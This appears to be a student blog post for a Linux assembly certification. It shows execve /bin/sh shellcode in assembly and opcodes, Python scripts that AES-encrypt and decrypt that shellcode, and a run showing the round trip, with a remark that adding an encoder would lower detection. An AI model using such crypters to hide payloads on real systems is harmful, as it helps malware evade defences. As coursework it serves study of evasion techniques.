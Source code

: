 # SLAE Assignment #7

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

* Create a custom crypter like the one shown in the "crypters" video
* Free to use any existing encryption schema
* Can use any programming language


## Encryption Algorithm

For this task the AES algorithm has been picked up.
As input it's used the execve-stack.nasm shellcode.
Original shellcode that executes /bin/sh:

```
; Filename: execve-nasm.nasm
; Author:  SLAE-935
;
; Purpose: execute /bin/sh

global _start			

section .text

_start:

	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes) 
	push 0x68732f2f
	push 0x6e69622f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```

Converted to opcodes:

```
$ ./compile-execve-stack.sh 
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

The final shellcode to use it's the following (we don't add any encoder stub, since the task is focused on encryption, but adding it at this point would help to decrease the detection rate):

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Algorithm Explanation

AES is based on a design principle known as a substitution-permutation network, a combination of both substitution and permutation. It operates on blocks of fixed size (128 bits) and the key can be of 128, 192 or 256 bits.
AES operates on a 4 × 4 column-major order matrix of bytes, called state, if the number of blocks in input gets bigger than 32, an additional column is added to the state, up to 256 bits. In practice, the number of bits of the input block is divided by 32, and the quotient specifies the number of columns.

### Encryption
There is an initial step:

* AddRoundKey – every byte of the table is combined with the session key. 

Then many rounds are expected, and in every round, but the latest, the following steps are repeated

* SubBytes: non linear substitution of all bytes, replaced with a specific table
* ShiftRows: bytes are shifted of a certain number of positions depending on the line they belong to.
* MixColumns: a column per time, the bytes are combined with a linear operation.
* AddRoundKey: every byte of the table is combined with the session key.

The number of processing rounds/cycles of the previous steps is 10, with the last step that skips the MixColumns phase.

### Decryption

The decryption phase is not equal to the encryption one, since the steps are reversed. Anyway it's possible to define an inverse cipher which is equivalent to the steps used during the encryption, by using the inverse function of each step and a different session key.

## Encrypter

Here follows the aes encrypter which takes as input the shellcode and the encryption key, it gives as output the encrypted shellcode:

```python
#!/usr/bin/python
# Python AES Crypter
# Author: SLAE-935
#
# Usage: python Enctypt.py 16bytesKey
# Ex: python Encrypt.py AABBCCDDAABBCCDD

import base64, re
from Crypto.Cipher import AES
from Crypto import Random

def encrypt(key):
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" # Execve-stack shellcode
    shellcode = shellcode + '\0' * (32 - len(shellcode) % 32)
    iv = Random.new().read(AES.block_size)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return base64.b64encode(iv + cipher.encrypt(shellcode))

if __name__ == "__main__":
    key = raw_input("Please enter encryption Key - 16 bytes \n")
    while (len(key) != 16 ):
        key = raw_input("Please enter encryption Key - 16 bytes \n")
    print encrypt(key)

```

## Decrypter

Here follows the AES decrypter which takes as input the encryption key, it gives as output the original shellcode if the provided key is the one correct one:

```python
#!/usr/bin/python
# Python AES Decrypt
# Author: SLAE-935
#
# Usage: python Decrypt.py 16bytesKey
# Ex: python Decrypt.py AABBCCDDAABBCCDD

import base64, re
from Crypto.Cipher import AES
from Crypto import Random

# key: ABCDEFGHABCDEFGH
def decrypt(key):
    encoded_shellcode = "ScueqVee2XjND7PIhHeUdM4VX1C7+6QMXct+dvZkRqWR2eNJFK70kwpc5bowocy4" # Execve-stack shellcode
    enc = base64.b64decode(encoded_shellcode)
    iv = enc[:16]
    cipher = AES.new(key, AES.MODE_CBC, iv)
    dec_ascii = re.sub('\0*$','', cipher.decrypt(enc[16:]))
    dec_hex = ''
    for x in bytearray(dec_ascii):
        dec_hex += '\\x%02x' % x
    return dec_hex 

if __name__ == "__main__":
    key = raw_input("Please enter encryption Key - 16 bytes \n")
    while (len(key) != 16 ):
        key = raw_input("Please enter encryption Key - 16 bytes \n")
    print decrypt(key)
```

## Proof of execution

Let's encrypt the shellcode with they key ABCDEFGHABCDEFGH:

```
$ python Encrypt.py 
Please enter encryption Key - 16 bytes 
ABCDEFGHABCDEFGH
ScueqVee2XjND7PIhHeUdM4VX1C7+6QMXct+dvZkRqWR2eNJFK70kwpc5bowocy4
```

Let's decrypt the shellcode with they key ABCDEFGHABCDEFGH:

```
$ python Decrypt.py 
Please enter encryption Key - 16 bytes 
ABCDEFGHABCDEFGH
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

As visible we have back the original shellcode.